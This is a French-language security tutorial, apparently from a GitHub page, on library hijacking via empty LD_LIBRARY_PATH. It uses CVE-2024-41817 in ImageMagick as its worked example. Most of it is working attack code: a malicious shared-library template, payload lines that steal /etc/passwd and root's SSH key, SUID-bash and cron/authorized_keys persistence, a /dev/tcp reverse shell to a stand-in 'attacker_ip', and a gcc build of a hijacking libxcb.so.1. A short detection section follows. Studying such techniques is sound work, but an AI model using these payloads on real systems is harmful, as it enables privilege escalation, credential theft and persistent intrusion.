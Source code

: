 # EMPTY ENV VARIABLES AND LIBRARY HIJACKING

## <mark style="color:red;">Library Hijacking via Variables d'Environnement Vides</mark>

### <mark style="color:blue;">Description de la faille</mark>

Le **Library Hijacking** via variables d'environnement vides est une technique d'exploitation qui tire parti d'un défaut de configuration dans la résolution des chemins de bibliothèques partagées. Lorsqu'une application définit des variables d'environnement avec des valeurs vides ou nulles pour localiser ses bibliothèques, le système d'exploitation va chercher ces bibliothèques dans le répertoire de travail actuel (CWD).

### <mark style="color:blue;">Mécanisme technique</mark>

#### Variables d'environnement critiques

Les principales variables exploitables sont :

* **`LD_LIBRARY_PATH`** : Chemin vers les bibliothèques partagées (.so)
* **`PATH`** : Chemin vers les exécutables
* **Variables spécifiques** : Comme `MAGICK_CONFIGURE_PATH` pour ImageMagick

#### Processus d'exploitation

```
1. Application définie : LD_LIBRARY_PATH=""
2. Système cherche dans : . (répertoire courant)
3. Attaquant place : bibliothèque malveillante
4. Application charge : bibliothèque de l'attaquant
5. Code malveillant : s'exécute automatiquement
```

### <mark style="color:blue;">Anatomie d'une bibliothèque malveillante</mark>

#### Structure de base

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Constructeur : s'exécute au chargement de la bibliothèque
__attribute__((constructor)) void malicious_init() {
    // Code malveillant ici
    system("whoami > /tmp/hijack_proof.txt");
    // L'application continue normalement après
}

// Fonctions légitimes pour maintenir la compatibilité
int legitimate_function() {
    return 0;
}
```

#### Types de payloads

**1. Exfiltration de données**

```c
system("cp /etc/passwd /tmp/stolen_passwd");
system("cp /root/.ssh/id_rsa /tmp/stolen_key");
```

**2. Escalade de privilèges**

```c
system("chmod +s /bin/bash");  // SetUID sur bash
system("cp /bin/bash /tmp/rootshell; chmod +s /tmp/rootshell");
```

**3. Persistance**

```c
system("echo 'attacker_key' >> /root/.ssh/authorized_keys");
system("crontab -l > /tmp/cron_backup; echo '* * * * * /tmp/backdoor' | crontab -");
```

**4. Reverse shell**

```c
system("bash -i >& /dev/tcp/attacker_ip/4444 0>&1 &");
```

### <mark style="color:blue;">Exemple concret : CVE-2024-41817 (ImageMagick)</mark>

#### Contexte

ImageMagick 7.1.1-35 définit parfois `MAGICK_CONFIGURE_PATH=""` et `LD_LIBRARY_PATH=""`, causant une recherche dans le CWD.

#### Exploitation pratique

**1. Reconnaissance**

```bash
# Vérifier la version
identify --version

# Localiser les scripts utilisant ImageMagick
find /opt -name "*.sh" -exec grep -l "identify\|convert" {} \;
```

**2. Analyse du script cible**

```bash
#!/bin/bash
# /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images/
identify *.jpg *.png 2>/dev/null
```

**3. Création de la bibliothèque malveillante**

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt /tmp/root.txt; chmod 755 /tmp/root.txt");
    exit(0);
}
EOF
```

**4. Déploiement et déclenchement**

```bash
# Placer la bibliothèque dans le répertoire de travail
cp libxcb.so.1 /opt/app/static/assets/images/

# La bibliothèque sera chargée lors de la prochaine exécution d'ImageMagick
```

### <mark style="color:blue;">Vecteurs d'attaque communs</mark>

#### Applications vulnérables typiques

* **ImageMagick** : `MAGICK_CONFIGURE_PATH`, `LD_LIBRARY_PATH`
* **Python** : `PYTHONPATH`
* **Java** : `CLASSPATH`, `LD_LIBRARY_PATH`
* **Node.js** : `NODE_PATH`
* **Perl** : `PERL5LIB`

#### Scénarios d'exploitation

**1. Scripts automatisés**

```bash
# Script qui traite des fichiers utilisateur
cd /uploads/user_files/
process_files.sh  # Vulnérable si LD_LIBRARY_PATH=""
```

**2. Services web**

```python
# Application web qui traite des uploads
import os
os.chdir('/var/www/uploads/')
os.system('identify uploaded_image.jpg')  # Vulnérable
```

**3. Tâches cron**

```bash
# Cron job qui s'exécute dans un répertoire utilisateur
0 * * * * cd /home/user/data && process_data
```

### <mark style="color:blue;">Techniques de détection</mark>

#### Surveillance en temps réel

**1. Monitoring des bibliothèques chargées**

```bash
# Utiliser strace pour surveiller les chargements
strace -e trace=openat -f -p PID 2>&1 | grep "\.so"

# Utiliser lsof pour voir les bibliothèques ouvertes
lsof -p PID | grep "\.so"
```

**2. Audit des variables d'environnement**

```bash
# Vérifier les variables d'environnement d'un processus
cat /proc/PID/environ | tr '\0' '\n' | grep -E "(PATH|LD_LIBRARY_PATH)"
```

**3. Surveillance des fichiers**

```bash
# Surveiller la création de .so dans des répertoires suspects
inotifywait -m -r /tmp /var/tmp /uploads --include="\.so$"
```
